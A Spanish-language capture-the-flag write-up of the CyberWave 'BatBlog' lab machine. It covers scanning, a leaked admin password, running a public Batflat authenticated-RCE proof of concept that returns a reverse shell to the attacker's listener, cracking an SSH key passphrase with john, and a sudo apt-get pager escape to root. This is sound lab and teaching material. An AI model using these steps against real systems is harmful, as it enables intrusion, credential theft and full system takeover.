

+++
author = "Andrés Del Cerro"
title = "CyberWave: BatBlog Writeup | Easy"
date = "2024-11-21"
description = ""
tags = [
    "CyberWave",
    "BatBlog",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Stored XSS",
    "XSS",
    "Cross Site Scripting",
    "Code Injection",
    "CVE-2020-35734",
    "Code Analysis",
    "Information Disclosure",
    "Hash Cracking",
    "Abusing sudo privilege",
    "Abusing sudo",
    "Abusing apt-get"
]

+++

# CyberWave: BatBlog Writeup

Welcome to my detailed writeup of the easy difficulty machine **"BatBlog"** on CyberWave. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 10.10.10.3 --ulimit 5000 -g
10.10.10.3 -> [22,80]
```

```console
nmap -p22,80 -sCV 10.10.10.3 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-21 14:05 CET
Nmap scan report for 10.10.10.3
Host is up (0.027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey:
|   2048 b1:a3:c9:61:5a:1a:ca:40:51:db:9e:12:d3:e7:78:88 (RSA)
|   256 74:8f:e3:ea:80:2c:18:fd:a2:9a:fc:f0:80:31:de:02 (ECDSA)
|_  256 83:93:7a:c5:68:2d:93:3e:16:10:0b:24:92:21:79:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Blog | batblog.bsh
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: Batflat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.88 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.10.10.3 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-21 14:06 CET
Nmap scan report for 10.10.10.3
Host is up (0.028s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
1055/udp  closed ansyslmd
17888/udp closed unknown
18958/udp closed unknown
19315/udp closed keyshadow
21261/udp closed unknown
26431/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
```

En el escaneo inicial vemos el dominio `batblog.bsh`, lo añadimos al `/etc/hosts`
# HTTP Enumeration
## Finding CMS version
Solo vemos dos puertos expuestos, un servicio HTTP y el SSH, dado que el SSH del servidor no es vulnerable, el vector de ataque de esta máquina será por "vía web"

`whatweb` no nos revela nada interesante acerca del sitio web.
```console
whatweb http://batblog.bsh
http://batblog.bsh [200 OK] Apache[2.4.38], Bootstrap, Cookies[bat], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.10.3], JQuery[2.2.4], Lightbox, MetaGenerator[Batflat], Script, Title[Blog | batblog.bsh], UncommonHeaders[x-created-by], X-UA-Compatible[IE=edge]
```

Así se ve el sitio web.


`Wappalyzzer` nos muestra que se está utilizando `SQLite` por detrás, un tanto extraño que el plugin sea capaz de reportar esto, y también nos muestra que el lenguaje del servidor es PHP.


Viendo el código HTML, podemos sacar dos conclusiones. Que detrás hay un CMS y que `batblog` es el nombre del tema que se está usando, por lo cual, nos podría llevar a descubrir el CMS en uso.


Una simple búsqueda en Google nos demuestra que el CMS en uso es `batflat`


Aunque realmente en la página principal podemos deducir que este es el CMS.


El panel de autenticación se encuentra bajo el recurso `/admin`, interesante.


Descubrimos que existe una versión vulnerable de este CMS, que si tuviéramos credenciales de acceso podríamos conseguir ejecución remota de comandos.


Y viendo el código HTML también podemos comprobar que esta es la versión actual del servidor.


## Gaining access to the admin dashboard
En este punto solo me quedaba hacer fuerza bruta o fuzzear para buscar directorios o recursos ocultos, cosa que en CMS no suele ser común pero bueno.

Podemos probar a fuzzear con `feroxbuster` y encontramos un recurso `/secret` bastante interesante.
```console
feroxbuster -u http://batblog.bsh -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100 -C 404
.......
301      GET        9l       28w      308c http://batblog.bsh/inc => http://batblog.bsh/inc/
200      GET        0l        0w        0c http://batblog.bsh/454
200      GET        0l        0w        0c http://batblog.bsh/553
301      GET        9l       28w      308c http://batblog.bsh/tmp => http://batblog.bsh/tmp/
200      GET        0l        0w        0c http://batblog.bsh/baby
200      GET        0l        0w        0c http://batblog.bsh/922
200      GET        0l        0w        0c http://batblog.bsh/advantage
200      GET        0l        0w        0c http://batblog.bsh/streaming
200      GET        0l        0w        0c http://batblog.bsh/forBusinessPartners
200      GET        0l        0w        0c http://batblog.bsh/ranks
200      GET        0l        0w        0c http://batblog.bsh/729
200      GET        0l        0w        0c http://batblog.bsh/hpc
403      GET        9l       28w      276c http://batblog.bsh/tmp/switcher.html
200      GET        1l        4w       39c http://batblog.bsh/ticket
200      GET      139l      364w     5147c http://batblog.bsh/secret
```

Accediendo a este recurso, vemos una nota que nos indica que la contraseña del administrador nueva es `4dm1n`, por lo cual podemos deducir que el nombre de usuario es `admin`


Si probamos estas credenciales, podemos iniciar sesión fácilmente.


# Remote Command Execution -> Foothold
## Stored XSS + Code Injection
Ahora vamos a probar [este PoC](https://www.exploit-db.com/exploits/49573), nos lo guardamos en un archivo llamado `pwn.py` para ver si efectivamente conseguimos ejecución remota de comandos.

Si nos ponemos escucha con `pwncat-cs` por el puerto 443.
```console
sudo ./pwncat-cs -lp 443
```

Y lanzamos el exploit.
```console
python3 pwn.py http://batblog.bsh/ admin 4dm1n 10.0.0.2 443
###########################################################
#######    Batflat authenticated RCE by mari0x00    #######
###########################################################

[+] Attempting user login
[+] Retrieving the token
[+] Token ID: 5a9f40a6fe8e
[+] Getting the add-user endpoint URL
[+] Adding pwnd user

[+] Triggering the shell. Go nuts!
```

Vemos que nos llega una conexión y efectivamente, ganamos acceso a la máquina víctima.
```console
[14:29:15] received connection from 10.10.10.3:44080                                                                                                                                                                            bind.py:84
[14:29:26] 10.10.10.3:44080: registered new host w/ db                                                                                                                                                                      manager.py:957
(local) pwncat$
(remote) www-data@batblog:/var/www/html/batflat/admin$ whoami
www-data
```

Ahora bien, no somos unos lammers y queremos saber porque pasa esto, nada es magia.

Para ello podemos analizar el código y ver las peticiones que ocurren por detrás.
Vamos a modificar nuestro `pwn.py` creando un objeto `proxies` para asignar a nuestro `burpsuite` que está en escucha por el puerto 8080.
```python
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}
```

Ahora, como el creador del PoC decidió utilizar sesiones, es muy fácil asignar estos proxies, simplemente los asignamos al atributo `proxies` del objeto de la sesión.

```python
s.proxies = proxies
```

Así debería de quedar.


Y ya simplemente si ejecutamos nuestro `pwn.py` podemos ver que interceptamos la solicitud con `burpsuite`


Primero, lo que hace el exploit es iniciar sesión y conseguir el token del usuario para poder continuar con la fase de explotación.

Y la fase crítica es la siguiente, se hace una solicitud de tipo `POST` a `/admin/users/save?t=TOKEN`, donde al nombre completo se le pasa un payload en PHP.


Y para terminar, se intenta editar el usuario que hemos creado, por alguna razón este código PHP es interpretado y ejecutado en el servidor.


Podemos nosotros mismos dirigirnos al panel de usuarios, y vemos que el apartado `fullname` del  usuario creado por el exploit sale en blanco. Aquí es donde hemos insertado nuestro código PHP.


Investigando un poco sobre esta vulnerabilidad. [En la página oficial de batflat](https://batflat.org/) podemos ver que la última versión lanzada es la `1.3.6`, la versión vulnerable.

El responsable de esta vulnerabilidad es [este archivo de aquí](https://github.com/sruupl/batflat/blob/master/inc/modules/users/Admin.php)

Podemos ver el apartado de código vulnerable, o mejor dicho, uno de ellos, es el siguiente.
```php
public function postSave($id = null)
    {
        $errors = 0;
        $formData = htmlspecialchars_array($_POST);

        // location to redirect
        $location = $id ? url([ADMIN, 'users', 'edit', $id]) : url([ADMIN, 'users', 'add']);

        // admin
        if ($id == 1) {
            $formData['access'] = ['all'];
        }

        // check if required fields are empty
        if (checkEmptyFields(['username', 'email', 'access'], $formData)) {
            $this->notify('failure', $this->lang('empty_inputs', 'general'));
            redirect($location, $formData);
        }

        // check if user already exists
        if ($this->_userAlreadyExists($id)) {
            $errors++;
            $this->notify('failure', $this->lang('user_already_exists'));
        }

        // check if e-mail adress is correct
        $formData['email'] = filter_var($formData['email'], FILTER_SANITIZE_EMAIL);
        if (!filter_var($formData['email'], FILTER_VALIDATE_EMAIL)) {
            $errors++;
            $this->notify('failure', $this->lang('wrong_email'));
        }

        // check if password is longer than 5 characters
        if (isset($formData['password']) && strlen($formData['password']) < 5) {
            $errors++;
            $this->notify('failure', $this->lang('too_short_pswd'));
        }

        // access to modules
        if ((count($formData['access']) == count($this->_getModules())) || ($id == 1)) {
            $formData['access'] = 'all';
        } else {
            $formData['access'][] = 'dashboard';
            $formData['access'] = implode(',', $formData['access']);
        }

        // CREATE / EDIT
        if (!$errors) {
            unset($formData['save']);

            if (!empty($formData['password'])) {
                $formData['password'] = password_hash($formData['password'], PASSWORD_BCRYPT);
            }

            // user avatar
            if (($photo = isset_or($_FILES['photo']['tmp_name'], false)) || !$id) {
                $img = new \Inc\Core\Lib\Image;

                if (empty($photo) && !$id) {
                    $photo = MODULES.'/users/img/default.png';
                }
                if ($img->load($photo)) {
                    if ($img->getInfos('width') < $img->getInfos('height')) {
                        $img->crop(0, 0, $img->getInfos('width'), $img->getInfos('width'));
                    } else {
                        $img->crop(0, 0, $img->getInfos('height'), $img->getInfos('height'));
                    }

                    if ($img->getInfos('width') > 512) {
                        $img->resize(512, 512);
                    }

                    if ($id) {
                        $user = $this->db('users')->oneArray($id);
                    }

                    $formData['avatar'] = uniqid('avatar').".".$img->getInfos('type');
                }
            }

            if (!$id) { // new
                $query = $this->db('users')->save($formData);
            } else { // edit
                $query = $this->db('users')->where('id', $id)->save($formData);
            }

            if ($query) {
                if (isset($img) && $img->getInfos('width')) {
                    if (isset($user)) {
                        unlink(UPLOADS."/users/".$user['avatar']);
                    }

                    $img->save(UPLOADS."/users/".$formData['avatar']);
                }

                $this->notify('success', $this->lang('save_success'));
            } else {
                $this->notify('failure', $this->lang('save_failure'));
            }

            redirect($location);
        }

        redirect($location, $formData);
    }
```

Este método es responsable de:

- Validar y limpiar los datos del formulario.
- Gestionar la lógica de creación y edición de usuarios.
- Procesar avatares de usuario.
- Guardar datos en la base de datos.
- Manejar redirecciones y notificaciones al usuario.

Pero a la hora de validar los datos, no filtra por caracteres especiales, por lo cual podemos crear un usuario con, por ejemplo, un código PHP.

No debería de pasar nada al mostrar el usuario realmente, si la aplicación está bien construida no debería de existir una vulnerabilidad, pero siguiendo la pista nos encontramos la función `getManage()`, responsable de mostrar los usuarios de la base de datos.
```php
public function getManage()
    {
        $rows = $this->db('users')->toArray();

        foreach ($rows as &$row) {
            if (empty($row['fullname'])) {
                $row['fullname'] = '----';
            }

            $row['editURL'] = url([ADMIN, 'users', 'edit', $row['id']]);
            $row['delURL']  = url([ADMIN, 'users', 'delete', $row['id']]);
        }

        return $this->draw('manage.html', ['myId' => $this->core->getUserInfo('id'), 'users' => $rows]);
    }

```

Esto nos lleva a [manage.php](https://github.com/sruupl/batflat/blob/master/inc/modules/users/view/admin/manage.html) que simplemente lo que hace es mostrar el valor de los campos de la base de datos de una forma que interpreta el código de PHP por lo cual, es ejecutado en el servidor.
Esta plantilla no utiliza mecanismos seguros para evitar la interpretación de datos como código ejecutable en el servidor, por lo cual resulta en la vulnerabilidad que hemos explotado.
```php
<tbody>
                            {loop: $users}
                            <tr>
                                <td><a href="{$value.editURL}">{$value.username}</a></td>
                                <td>{$value.fullname}</td>
                                <td>{$value.email}</td>
                                <td class="text-right">
                                    <a href="{$value.editURL}" class="btn btn-xs btn-success">
                                        <i class="fa fa-pencil"></i> <span class="hidden-xs">{$lang.general.edit}</span>
                                    </a>
                                    <a href="{$value.delURL}" class="btn btn-xs btn-danger {if: $value.id==1 || $value.id==$myId}disabled{/if}" data-confirm="{$lang.users.delete_confirm}">
                                        <i class="fa fa-trash-o"></i> <span class="hidden-xs">{$lang.general.delete}</span>
                                    </a>
                                </td>
                            </tr>
                            {/loop}
                        </tbody>
```

# Privilege Escalation
## User Pivoting
### Information Disclosure + SSH Private Key Cracking
No encontramos la flag y ademas vemos que existe otro usuario aparte de `root` en el sistema, este usuario se llama `badmin`
```console
(remote) www-data@batblog:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
badmin:x:1000:1000:badmin,,,:/home/badmin:/bin/bash
```

Eso me hace pensar que tenemos que migrar a este usuario para conseguir la flag de usuario y ya de ahí escalar privilegios.

Podemos buscar archivos que pertenezcan a este usuario y encontramos uno que me llama mucho la atención, `id_rsa` dentro del directorio donde está la aplicación web, este archivo no debería de estar ahí.

```console
(remote) www-data@batblog:/tmp$ find / -type f -user badmin 2>/dev/null | grep -v proc | grep -v cgroup
/home/badmin/.wget-hsts
/home/badmin/.bashrc
/home/badmin/.bash_logout
/home/badmin/.profile
/home/badmin/.bash_history
/var/www/html/batflat/admin/tmp/id_rsa
```

Podemos descargar esta clave privada y echarla un vistazo en nuestra máquina, vamos a hacer uso de la función `download` de `pwncat-cs`

```console
(local) pwncat$ download /var/www/html/batflat/admin/tmp/id_rsa
/var/www/html/batflat/admin/tmp/id_rsa ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 1.9/1.9 KB • ? • 0:00:00
[16:37:32] downloaded 1.88KiB in 0.16 seconds
```

Una cosa que podemos hacer pasa saber a quien pertenece esta clave privada realmente es derivar la clave pública de esta clave privada, pero vemos que está protegida con una passphrase por lo cual no podemos.
```console
ssh-keygen -y -f id_rsa > id_rsa.pub
Enter passphrase:
```

Podemos usar `ssh2john` para extraer el hash de esta passphrase e intentar crackearlo.
```console
ssh2john id_rsa > hash
```

Ahora con `john` podemos crackear esta passphrase.
```console
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pa55w0rd         (id_rsa)
1g 0:00:03:30 DONE (2024-11-21 16:29) 0.004740g/s 35.79p/s 35.79c/s 35.79C/s 12346..europa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Entonces ahora si que podemos derivar la clave pública y vemos que pertenece al usuario `badmin`
```console
➜  content ssh-keygen -y -f id_rsa > id_rsa.pub
Enter passphrase:
➜  content cat id_rsa.pub
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: id_rsa.pub
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtTpfujL+ACKR1sjRqTxxxTbahhuY7PfyH3ndLVsziJnLZVFsMJvXThdzMba2QIRXEzu
       │ ojTUkpIbxzl6ayjSIs8pNvxwakJeN1F8r9KjORu9FmFDKp7vdvR2dMY4ct1qGUwBU9lnfdcaW3iTNtW6ymZsB7Qwqy8hZgvokubnUNU+7f
       │ loSSTXNNBvbnmTyHgdVunuaFc/dXBaXYCJEaxeUXQd252XMk9PGSapF8kKSnqQU/ZWwc4h69dXkaygu+rhIXppS+TtAgUSSKA6ASTwnajw
       │ JHkW6sBR53mceqcpKRwAmZdKvbrw0TcdrlhuLdcQEN/5lU0RQkWWGXlY7FR4fp badmin@batblog
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Ahora podemos iniciar sesión como `badmin` utilizando su clave privada y la passphrase.
```console
ssh badmin@batblog.bsh -i id_rsa
Enter passphrase for key 'id_rsa':
Linux batblog 4.19.0-26-amd64 #1 SMP Debian 4.19.304-1 (2024-01-09) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May  7 15:05:25 2024 from 10.0.0.2
badmin@batblog:~$ id
uid=1000(badmin) gid=1000(badmin) groups=1000(badmin),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

Podemos leer la flag de usuario.
```console
badmin@batblog:~$ cat user.txt
4cba7d3b85f362f1d...
```

## Pivoting to `root`
Podemos ver que podemos ejecutar el binario `apt-get` como `root` sin necesidad de proporcionar contraseña.
```console
badmin@batblog:~$ sudo -l

sudo: unable to resolve host batblog: Temporary failure in name resolution
Matching Defaults entries for badmin on batblog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User badmin may run the following commands on batblog:
    (root) NOPASSWD: /bin/apt-get
```

[Una simple búsqueda en GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) nos revela como escalar privilegios en nuestro caso.

Podemos abusar de que `apt-get` invoca el `pager` por defecto (`less`), y gracias a esta funcionalidad del binario podemos llegar a ejecutar el comando que queramos.

Ejecutamos lo que nos indica GTFOBins y esperamos un rato hasta que cargue la lista de cambios.
```console
badmin@batblog:~$ sudo apt-get changelog apt
```

Una vez hecho eso, simplemente introducimos `!/bin/bash` y se nos lanzará una consola como `root` que es el usuario con el cual estamos ejecutando el `apt-get`
```console
badmin@batblog:~$ sudo apt-get changelog apt
sudo: unable to resolve host batblog: Temporary failure in name resolution
Get:1 store: apt 1.8.2.3 Changelog
Fetched 459 kB in 0s (0 B/s)
WARNING: terminal is not fully functional
/tmp/apt-changelog-GF6tWs/apt.changelog  (press RETURN)
!/bin/bash
root@batblog:/home/badmin# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de `root`
```console
root@batblog:~# cat root.txt
fb99ec67e2af74a33...
```

¡Y ya estaría!

Happy Hacking! 🚀